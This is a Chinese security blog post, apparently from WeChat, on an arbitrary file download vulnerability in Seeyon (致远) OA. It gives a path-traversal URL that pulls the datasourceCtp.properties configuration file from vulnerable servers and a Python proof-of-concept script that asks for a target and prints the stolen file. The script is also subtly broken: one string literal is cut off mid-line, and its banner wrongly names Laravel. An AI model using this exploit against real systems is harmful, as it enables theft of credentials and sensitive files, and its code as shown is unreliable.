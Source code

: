> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/IHISaQzNGx9fUElERGZHMQ)

![](https://mmbiz.qpic.cn/mmbiz_gif/ibicicIH182el5PaBkbJ8nfmXVfbQx819qWWENXGA38BxibTAnuZz5ujFRic5ckEltsvWaKVRqOdVO88GrKT6I0NTTQ/640?wx_fmt=gif)

**一****：漏洞描述🐑**

致远 OA 存在任意文件下载漏洞，攻击者可利用该漏洞下载任意文件，获取敏感信息

**二:  漏洞影响🐇**

致远 OA A6-V5

致远 OA A8-V5

致远 OA G6

**三:  漏洞复现🐋**

访问 url  http://xxx.xxx.xxx.xxx/seeyon/webmail.do?method=doDownloadAtt&filename=PeiQi.txt&filePath=../conf/datasourceCtp.properties

存在漏洞的 OA 系统将会下载 **datasourceCtp.properties** 配置文件

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el7sNA2oibfrEvLCia4dI2NZLL60769l4OlY9ydJw25wmqZP9Lds9GzIvE2yDZTbOsiagDjY6rViaKUJCQ/640?wx_fmt=png)

更改参数 filePath 可下载其他文件

 **四:  漏洞利用 POC🐋**

```
import requests
import sys
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mVersion: Laravel framework <= 5.5.21                              \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/seeyon/webmail.do?method=doDownloadAtt&file
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        if "workflow" in response.text:
            print("\033[32m[o] 目标{}存在漏洞 \033[0m".format(target_url))
            print("\033[32m[o] 响应为:\n{} \033[0m".format(response.text))
        else:
            print("\033[31m[x] 文件请求失败 \033[0m")
            sys.exit(0)
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el7sNA2oibfrEvLCia4dI2NZLL9AsB5L6KluvInGeQz2gmQIiaAgwmCSuEAjaIyMzDYD5WekJFrC1ibavw/640?wx_fmt=png)

Goby & POC
----------

```
GOby POC 目录已经添加漏洞json文件，可以一键导入
致远OA webmail.do任意文件下载 CNVD-2020-62422
```

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el7sNA2oibfrEvLCia4dI2NZLL9zzXadyzMOOxueB7KeOLq9wmjsJX7ShiavJib51FLx8v7VeAYwt70Y8g/640?wx_fmt=png)

最后
--

> 下面就是文库和团队的公众号啦，更新的文章都会在第一时间推送在公众号
> 
> 别忘了 Github 下载完给个小星星⭐

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el6wnKTQvK0n8sFOQEEFQro75IHato7k7WJakCwObVtic8kOiagRSTylHIhHxg4DVKOhBFDazKkCMgvw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el6wnKTQvK0n8sFOQEEFQro7uWKGayI2RguaLia8VfTDystgmyZaEk15WcXU9v4WtULgysUGicYFGMQA/640?wx_fmt=png)
